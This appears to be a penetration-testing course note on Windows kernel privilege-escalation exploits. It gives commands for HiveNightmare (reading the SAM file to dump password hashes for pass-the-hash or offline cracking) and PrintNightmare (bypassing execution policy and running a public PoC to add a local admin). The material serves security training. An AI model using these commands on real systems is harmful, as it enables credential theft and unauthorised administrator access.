 

## Kernel Exploits

Microsoft CVE database: https://msrc.microsoft.com/update-guide/vulnerability

#### High Impact Exploits
- MS08-067
- MS17-010, aka EternalBlue
- ALPC Task Scheduler 0-Day
- CVE-2021-36934 HiveNightmare, aka SeriousSam
- CVE-2021-1675/CVE-2021-34527 PrintNightmare

### CVE-2021-36934 HiveNightmare, aka SeriousSam

#### Checking Permissions on the SAM File
```cmd.exe
icacls c:\Windows\System32\config\SAM
```
In the course material, we have a vulnerable version as the file is readable by the `BUILTIN\Users` group

*Successful exploitation also requires the presence of one or more shadow copies. Most Windows 10 systems will have System Protection enabled by default which will create periodic backups, including the shadow copy necessary to leverage this flaw.*

#### Performing Attack and Parsing Password Hashes
```PowerShell
.\CVE-2021-36934.exe
```

This will dump the hashes, which can then be used for a PtH attack or password cracking offline.

### CVE-2021-1675/CVE-2021-34527 PrintNightmare

#### Checking for Spooler Service
```PowerShell
ls \\localhost\pipe\spoolss
```
If it isn't running, we will receive a "path does not exist" error.

#### Adding Local Admin with PrintNightmare PowerShell PoC
```PowerShell
Set-ExecutionPolicy Bypass -Scope Process
```

#### Importing the PowerShell script and adding a new local admin user
```PowerShell
Import-Module .\CVE-2021-1675.ps1
```

```PowerShell
Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```
Adding a user is "noisy," We would not want to do this on an engagement where stealth is a consideration. Check with client to confirm account creation is in scope.
